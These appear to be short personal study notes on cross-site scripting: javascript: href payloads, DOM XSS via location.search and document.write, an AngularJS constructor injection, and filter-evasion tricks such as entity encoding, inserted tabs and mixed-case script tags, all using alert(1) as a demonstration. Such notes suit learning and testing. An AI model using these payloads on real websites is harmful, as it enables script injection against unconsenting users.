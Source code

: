 href
```
href="javascript:alert(1)"
```

DOM
```
location.search      ---> Search in the URL for a parameter
write.document       ---> This will write to the HTML (Adding something depending on the code)
```

- How to exploit: If you have a variable fetching for ID in the URL and then pasting this value to the HTML, you can create a DOM XSS

Other JS Language
```
# AngularJS
<body ng-app="" class="ng-scope">               ---> Interested in the ng-app
{{$on.constructor("alert(1)")()}}               ---> Explained Below
```

- AngularJS
	- the JavaScript `constructor` function to create a new object with a specified function as its `constructor` attribute. The function being passed to the `constructor` attribute is an `alert` function that displays a message. The code then calls the object using the `()` operator, causing the `alert` function to be executed. PS: We can see the code on the page once it is executed

---

<h4>Evasion</h4>

Encoding
```
urlencode "http://example.com/?param=linux+url+encoder"

<img onerror=&#34alert(1)&#34src=x>
<img onerror=&#39alert(1)&#39src=x>
...

<script>Encoding</script>  ---> %3Cscript%3EEncoding%3C%2Fscript%3E
```

- urlencode ---> Tool to encode url (Possible to encode many times)

Basic Modification
```Terminal
#Encoded tabs/newlines/CR
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>

#Capital letters
<ScRipT>alert(1)</sCriPt>

#If angle brackets are encoded
-alert(1)-  ---> (-) replace (> or <)
```
